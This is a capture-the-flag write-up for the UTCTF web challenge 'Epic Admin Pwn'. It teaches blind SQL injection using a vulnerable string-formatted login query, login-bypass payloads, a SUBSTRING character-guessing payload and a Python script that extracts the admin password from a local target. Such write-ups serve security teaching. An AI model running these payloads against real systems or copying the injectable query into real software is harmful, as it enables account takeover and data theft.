

# Epic Admin Pwn
* **Event:** UTCTF
* **Problem Type:** Web
* **Point Value / Difficulty:** easy-medium
* **(Optional) Tools Required / Used:** None required

## Overview

Hi everyone! This problem was written as a fairly easy blind sql injection
problem, a pretty common vulnerability.

## Steps

#### Load up website

It's a simple login page, nothing too special about it. To "reduce attack surface", it's pretty minimalist :).




#### Detect SQL Injection

SQL injection is a type of vulnerability where an application doesn't sanitize
input, and user input is directly involved in a SQL query.

In this case, the backend application takes a POST request with some form data
and directly uses it in the SQL query. Because of this, you can break syntax of
the sql query using `'` a single quote and then "inject" whatever you want in
the query.

```
user = request.form['username']
password = request.form['pass']

login_sql = "SELECT * FROM users WHERE username='{}' AND password='{}'".format(user,password)
```

Note, you obviously don't get to see this code on the backend, you have to make some
assumptions :).


In a normal SQL injection vulnerability, there might be some output that you're
able to gather when you enter malicious input like `'`. However, because the
problem is "blind" I intentioally hid database errors. You're still able to
inject code though, and if you enter something like `' OR 1=1 --` in the
username field, you hit a "Welcome admin" page.


#### Find username
Now that you've found a way to login, you can use that as a sort of "binary
condition", where login == success, and failure otherwise.

Just with that information you're able to extract a lot out of the database,
like the admin password.

Hopefully, you noticed that the title of the problem was "Epic Admin Pwn", and
so you assumed that the user that you wanted to mess with was named `admin`.

You confirm this is the case by trying `admin'--` in the username column.
Because the query succeeded and you're hit with the "Welcome, admin!" page, you
know that the username is `admin`.

#### Extract Password

The problem description told you that the admin password was the flag. A lot of
people assumed that once you logged in, you were done. Unfortunately, that was
the easier part.

To extract the password, you had to be familiar with the SQL `SUBSTRING` method:

`SUBSTRING(word, index, length)`

SQL provides a way to extract substrings from a given word, where `index` is
1-based, and length is the number of characters you want to grab after the
offset index.

Example: `SUBSTRING('foobar', 4, 2) == 'ba'`

You could use this to extract the first character of the admin password by doing
something like 
`admin' AND SUBSTRING(password, 1, 1) = 'u' --`

If you hit the login page, then you know that the first character of the
password is 'u'.

My solution script below essentially iterates over a subset of possible
character values (i only used alphanumerics) and then tested them against each
character index in the password.

A more elegant solution could use binary search, and exploit the fact that
`SUBSTRING(password, 1, 1) > 'm'` would tell you if the first character is in
the second half of the alphabet. However, I'm lazy.

## Solution Script
```
import requests


password = ""


charlist = 'abcdefghijklmnopqrstuvwxyz1234567890{}'


# localhost cause ran locally to test
url = "http://localhost:5006/"

for index in range(0, 30):
    for char in charlist:
        request_text = f"admin' AND SUBSTR(password, {index}, 1) = '{char}'--"
        data = {"username": request_text, "pass": ""}
        response = requests.post(url, data)
        if response.text.find('Welcome, admin!') != -1:
            password += char
            print(password)
            continue 
```

## Resources

[Portswigger sqli](https://portswigger.net/web-security/sql-injection)
[Portswigger sqli cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
